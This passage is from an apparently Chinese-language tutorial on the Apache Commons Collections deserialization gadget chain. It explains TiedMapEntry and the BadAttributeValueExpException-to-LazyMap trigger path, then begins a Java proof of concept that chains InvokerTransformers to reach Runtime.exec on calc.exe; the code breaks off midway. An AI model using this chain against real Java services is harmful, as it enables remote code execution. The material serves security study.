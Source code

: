 但是只有当键值不存在的时候才会触发transform，因此引入另一个类TiedMapEntry

## TiedMapEntry

```
public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }
    public Object getKey() {
        return this.key;
    }
    public Object getValue() {
        return this.map.get(this.key);
    }
    public String toString() {
        return this.getKey() + "=" + this.getValue();
    }
```

当触发toString方法的时候可以调用其绑定的映射去获取预定的键值。

## POC链

**BadAtrributeValueException对象exception  ->**
**exception对象的val设置为lazyMap的TiedMapEntry,键为lazyMap中不存在的键 ->**
**调用entry的toString() ->**
**调用lazyMap的get方法获取这个不存在的键 ->**
**调用transform方法**

## poc

```
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;

public class Demo {

    public static Object Reverse_Payload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", null }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, null }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc.exe" }) };
        ChainedTransformer transformerChain = new ChainedTransformer(transformers);
```